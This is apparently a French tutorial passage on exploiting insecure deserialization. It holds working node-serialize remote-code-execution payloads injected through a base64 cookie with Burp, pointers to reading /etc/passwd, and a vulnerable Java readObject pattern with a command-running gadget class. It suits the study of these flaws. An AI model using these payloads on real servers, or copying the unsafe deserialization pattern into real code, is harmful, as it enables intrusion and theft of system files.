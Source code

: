 ### Exploitation de serialize.js
L'object JSON:

    {"MyObj":"_$$ND_FUNC$$_function(){require('child_process').exec('ls',function(error, stdout, stderr) {console.log(stdout)});}()"}

permettra à travers l'exécution de `eval()` dans la fonction `unserialize` d'exécuter la commande `ls` donc d'exécuter du code distant.

### Exploitation d'une faille identifiée et accès au filesystem
La première étape est de l'identifier. Par exemple, admettons que l'on trouve un cookie dont le contenu est encodé en base64 et dont on identifie qu'il sera déserialisé. La déserialisation se passant à travers le module `node-serialize` qui va évaluer l'expression de la fonction passé.

Il nous est possible de passer un objet JSON comme payload qui sera ensuite encodé en base64 pour reprendre le fonctionnement du cookie:

    {"MyObj":"_$$ND_FUNC$$_function(){require('child_process').exec('echo hello >> /opt/web/webapp/public/file.txt',function(error, stdout, stderr) {console.log(stdout)});}()"}
Il ne reste plus qu'à injecter le payload à la place du cookie avec Burp en interceptant la requête pour accéder à `/` (le home, qui correspond également au dossier public accessible depuis internet). Nous allons avoir accès au fichier `file.txt`.
A partir de là, puisque nous avons identifé un accès au système de fichier, il ne reste plus qu'à modifier la commande pour accéder à des fichiers sensibles tels que `/etc/passwd` par exemple.

### Exploiter la protection anti-CSRF par jeton en Java
La protection sur un jeton sous forme de paramètre `csrfValue` qui sera récupéré dans la requête sous forme de String avant d'être converti en tableau d'octets puis lu par la fonction `readObject`:

    String parameterValue = request.getParameter("csrfValue");
    ...
    byte[] csrfBytes =DatatypeConverter.parseBase64Binary(parameterValue);
    ByteArrayInputStream bis = new ByteArrayInputStream(csrfBytes);
    ObjectInput in = new ObjectInputStream(bis);
    csrfToken = (CSRF)in.readObject();

La vulnérabilité ici est comme bien souvent l'utilisation d'une fonction potentiellement vulnérable sans protection sur l'entrée utilisateur (le paramètre `csrfValue`).

Si par exemple la classe `CSRF` qui caste l'instance utilisant appelant la méthode `readObject` exécutait du code:

    public class CSRF implements Serializable {
        …
        public String command = "cat /etc/passwd";
        …
        public void execCommand(){
            … 
            Runtime.getRuntime().exec(this.command);
            …
        private void readObject(java.io.ObjectInputStream in) throws IOException, ClassNotFoundException {
            …
            this.execCommand();
        }
    } 
Alors nous aurions réussi notre injection de code arbitraire sur le serveur. Il faut savoir que 
* `ObjectInputStream` ne vérifie pas quelle classe est désérialisée
* Il n’y a pas de liste blanche ou noire de classes autorisées à être désérialisées
